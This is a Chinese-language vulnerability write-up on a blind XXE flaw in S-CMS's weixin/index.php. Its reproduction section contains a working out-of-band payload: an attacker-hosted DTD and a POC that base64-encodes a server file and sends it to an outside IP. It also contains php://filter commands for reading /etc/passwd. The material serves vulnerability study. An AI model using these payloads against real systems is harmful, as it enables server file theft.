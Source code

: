 S-CMS xxe漏洞
=============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

全局搜索`simplexml`，在`weixin/index.php`发现漏洞

![](resource/S-CMSxxe漏洞/media/rId25.jpg)

非常标准的XXE，没有任何过滤手段，往下并未发现有输出XML解析结果的地方，此处应用无回显的XXE攻击手段

### 漏洞复现

首先在自己的服务器（192.168.64.131）上创建一个供靶机外部引用的dtd文件（test.dtd）

    <!ENTITY % all 
        "<!ENTITY % send SYSTEM 'http://192.168.64.131/?%file;'>"
    >
    %all;

发送POC

    <?xml version="1.0"?>
    <!DOCTYPE ANY [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/phpStudy/PHPTutorial/WWW/robots.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.64.131/test.dtd">
    %dtd;
    %send;
    ]>

![](resource/S-CMSxxe漏洞/media/rId27.jpg)

然后在Apache日志中查看到结果：

![](resource/S-CMSxxe漏洞/media/rId28.jpg)

在这里发现一个问题，查看其它php文件的内容会发生`Detected an entity reference loop`错误，查询资料发现libxml解析器默认限制外部实体长度为2k，无法突破，只能寻找压缩解决方案（但效果不明显）

    压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
    解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");

参考链接
--------

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/
